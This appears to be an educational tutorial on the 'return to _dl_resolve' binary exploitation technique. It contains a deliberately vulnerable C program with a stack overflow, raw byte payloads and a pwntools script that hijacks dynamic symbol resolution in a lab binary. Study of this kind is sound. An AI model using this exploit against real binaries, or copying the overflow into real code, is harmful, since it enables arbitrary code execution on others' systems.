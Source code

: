 # Return to \_dl\_resolve

## Introduction

This is a highly sophisticated attack which leverages the way dynamic library functions are resolved at runtime in order to resolve an arbitrary procedure and invoke it.

To understand the following content, knowledge of [dynamic linking](../../../reverse-engineering/binary-formats/index/dynamic-linking.md) with ELF files is necessary.

## Theory

It is possible to use `_dl_resolve` to call any external function by creating a fake relocation table, symbol table, string table, and GOT. `_dl_resolve` performs no upper boundary checks on the relocation argument, which means that we can make it arbitrarily large and thus point it to our fake relocation table. From there, we can do the same with the rest of the offsets. It does, however, check a few other things which we will need to work around.

Because of the checks that `_dl_resolve` performs, the `r_info` must be divisible by 0x18. The distance between the real symbol table and our fake one must be divisible by 0x18 and fit in 32 bits after this division. This practically prevents us from using the stack on 64-bit systems to store our fake tables and we will need to utilise the `.bss` section, which is closer to the real symbol table in the executable. Additionally, `r_info` must end in 0x7.

For the sake of simplicity, all of the fake tables will only contain one entry. Once we have the fake symbol table set up, we need to set `st_other` to 0 and `st_name` to the distance between the real string table and our fake one, which can in this case be a single null-terminated string. Next, `r_info` must be populated with `(( RealToFakeSymbolTableOffset / 0x18 ) << 32 ) | 0x7`, where `RealToFakeSymbolTableOffset` is the 0x18 aligned distance between our fake and real symbol tables. Do not worry about all the bit-wise operations - these are taken care of by a few macros in `_dl_resolve`. `r_offset` on the other hand, must contain the distance between our fake global offset table and the ELF header.

The relocation argument should store the offset between the start of the real relocation table and the beginning of the fake relocation table divided by the size of one relocation entry and should be put at the top of the stack. Consequently, if gaining code execution through a stack buffer overflow, the relocation argument should follow the malicious return address.

## Exploitation

```cpp
#include <stdio.h>
#include <stdlib.h>

char message[128];

void SendMessage()
{
	char sender[20];
	
	printf("Enter the message: \n");
	fgets(message, 128, stdin);
	
	printf("Enter the sender name: \n");
	fgets(sender, 0x40, stdin);
}

int main()
{
	SendMessage();		
	printf("Message sent!");
	return 0;
	
}
```

Manually performing this exploit can be rather extremely cumbersome. Anyway, the fake tables should be set in the following way:

Relocation argument:

* `reloc_arg = (FakeRelocationTable - RealRelocationTable) / sizeof(Relocation Entry)`
* must be divisible by the size of the relocation entry:
  * `Elf32_Rel` : 8 bytes
  * `Elf32_Rela`: 12 bytes
  * `Elf64_Rel`: 16 bytes
  * `Elf64_Rela`: 24 bytes

Fake relocation table:

* `r_offset = FakeGOT - ElfHeader`
* `[+0x8] r_info = (( (FakeSymbolTable - RealSymbolTable) / 0x18 ) << 32 ) | 0x7`
  * the distance between the fake and the real symbol table must be divisible by 0x18, so padding might be required
* `[+0x10] r_addend = 0 (doesn't matter)`

Fake symbol table:

* `[+0x18] st_name = FakeStringTable - RealStringTable`
* `[+0x20] st_info = 0 (doesn't matter)`
* `[+0x21] st_other = 0`

Fake string table:

* `[+0x22] function name = system\x00 (or any other function)`

The above offsets are from the beginning of the fake relocation table and are suited to x64. You will have to change them for x86 based on the size of the struct fields.

For any arguments you want to pass to the function, you will either need to use shellcode in your initial payload buffer or utilise ROP.

Consequently, the payload for the `message` is `"\x00\x00\x00\x00\x00\x00\x00\x00\x99\x40\x00\x00\x00\x00\x00\x00\x07\x00\x00\x00\x88\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x42\x42\x42\x42\x42\x42\x42\x42\xda\x3b\x00\x00\x00\x00\x00\x00\x00\x00abort\x00"`

The actual buffer that will be overflowed is the `sender` buffer the payload for it looks like this: `"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x30\x50\x55\x55\x55\x55\x00\x00\x6d\x02\x00\x00\x00\x00\x00\x00"` The last bytes are the value of the relocation argument and the ones before are the address of PLT0.

Indeed, running this exploit results in the programme's abortion through the `abort` function (you can check by the exit code).

```python
from pwn import *

program = process("./dl_resolve")

print(program.recvlineS())
program.sendline(b"\x00\x00\x00\x00\x00\x00\x00\x00\x99\x40\x00\x00\x00\x00\x00\x00\x07\x00\x00\x00\x88\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x42\x42\x42\x42\x42\x42\x42\x42\xda\x3b\x00\x00\x00\x00\x00\x00\x00\x00abort\x00")

print(program.recvlineS())
program.sendline(b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x30\x50\x55\x55\x55\x55\x00\x00\x6d\x02\x00\x00\x00\x00\x00\x00")

program.interactive()
```

![](<../../../Exploitation/Binary Exploitation/Stack Exploitation/Resources/Images/RDLR\_manual.png>)

The `abort` procedure takes no arguments which made manual exploitation easier, however, when you want to invoke a function with parameters, such as `system`, you will need to either execute additional shellcode before jumping to PLT0, or build a ROP chain.
